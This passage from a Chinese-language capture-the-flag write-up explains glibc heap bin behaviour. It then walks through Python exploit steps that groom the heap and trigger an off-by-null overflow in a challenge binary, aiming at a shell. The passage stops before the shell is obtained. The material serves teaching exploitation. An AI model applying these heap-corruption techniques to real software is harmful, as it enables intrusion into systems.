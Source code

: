 所以在第一次 `new heap` 时 ，`unsorted bin`进入 `smallbin` ,然后 被切割，剩下一个 `0x60` 的`unsorted bin` ， 再次 `new heap` ，`unsorted bin`进入 `smallbin`，然后在分配 `new heap` 需要的内存 `0xb0` , 然后会从 `top chunk` 分配，于是 出现了 `smallbin`。

下面继续



**构造exploit之 off-by-one**

经过上一步我们已经 拿到了 `libc` 和 `heap` 的地址。下面讲讲怎么 ` getshell`
首先清理一下 `heap` 
```
remove_ghost()
del_heap(1)
del_heap(2)
```
然后初始化一下堆状态
```

add_ghost(12345, "ssssssss")
new_heap("b")   # heap 0
new_heap("b")   # heap 1   
new_heap("b")   # heap 2
```

现在的 `heap` 是这样的

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513061917788zaualfd9.png?imageslim)

然后构建一个较大的 `unsorted bin` 
```
remove_ghost()
del_heap(0)
del_heap(2)
new_heap("s")
new_heap("s")
log.info("create unsorted bin: |heap 0|unsorted_bin(0x60)|heap 1|heap 2|top chunk|")
# pause()

del_heap(0)
del_heap(1)
```
![paste image](http://oy9h5q2k4.bkt.clouddn.com/15130621045925vya3mql.png?imageslim)

下面使用 `off-by-null` 进行攻击，先说说这种攻击为啥可以实现，文章开头就说， `new_heap` 时获取输入，最多可以读取 `0xa8` 个字节的数据，最后会在末尾添加 `0x00` ,所以实际上是 `0xa9` 字节 , 因为  `0xa8` 字节 时已经用完了 下一个 `chunk` 的 `presize` 区域 ， 第`0xa9`字节就会覆盖 下一个 `chunk` 的 `size` 位， 这就是 `off-by-null `, 具体细节比较复杂，下面一一道来。


首先触发 `off-by-one`

```
new_heap("a"*0xa8)
```

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513063756553bwp90599.png?imageslim)
